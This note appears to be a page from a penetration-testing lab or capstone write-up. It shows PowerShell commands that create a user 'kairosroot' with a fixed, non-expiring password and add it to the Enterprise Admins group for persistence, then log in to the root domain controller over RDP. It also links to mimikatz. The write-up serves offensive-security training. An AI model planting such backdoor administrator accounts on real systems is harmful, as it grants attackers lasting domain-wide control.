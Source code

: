 In order to maintain persistence, and allowing us to login without creating tickets, we can create a new user and add it to **Enterprise Admins** group, using the following PowerShell code:

## Connect to CORPDC with Administration credentials

[[Download mimikatz]]

## Adding a new user as an Enterprise Admin

PS C:\Users\Administrator>`$pwd = convertTo-SecureString "Capstone1@" -AsPlainText -Force`

PS C:\Users\Administrator> `New-ADUser -Name "kairosroot" -AccountPassword $pwd -PasswordNeverExpires $true -Enabled $true`

PS C:\Users\Administrator>`$User = Get-ADUser -Identity "kairosroot"  -Server "corpdc.corp.thereserve.loc"`

PS C:\Users\Administrator>`$Group = Get-ADGroup -Identity "Enterprise Admins" -Server "rootdc.thereserve.loc"`

PS C:\Users\Administrator>`Add-ADGroupMember -Identity $Group -Members $User -Server "rootdc.thereserve.loc"`


![[Maintain persistence-20240613153305218.webp]]

### Check out the user and group

PS C:\Users\Administrator> `echo $user`

![[Maintain persistence-20240616142921373.webp]]

PS C:\Users\Administrator> `echo $group`

![[Maintain persistence-20240613153950655.webp]]


`
## RDP to ROOTDC

With our new created user, we can just login in the ROOTDC as an Enterprise Admin.

Computer: `10.200.X.100`

### Connecting from a Client Machine

1. **Open Remote Desktop Connection**:
    
    - Press `Win + R`, type `mstsc`, and press `Enter`.
    - ![[Maintain persistence-20240615154522456.webp]]
1. **Enter the Host Machine’s Name or IP Address**:
    
    - In the Remote Desktop Connection window, enter the computer name or IP address of the host machine.
3. **Enter Credentials**:
    
    - When prompted, enter the username and password for the account on the host machine.
    - Username: `kairosroot`
    - Password: `Capstone1@`
1. **Optional: Save Connection Settings**:
    
    - You can save the connection settings to an RDP file by clicking on **Show Options** > **Save As**.
5. **Connect**:
    
    - Click **Connect** to start the remote session.

    ![[Maintain persistence-20240616151550123.webp]]


**Next step:** [[RDP to BANKDC from host CORPDC]]
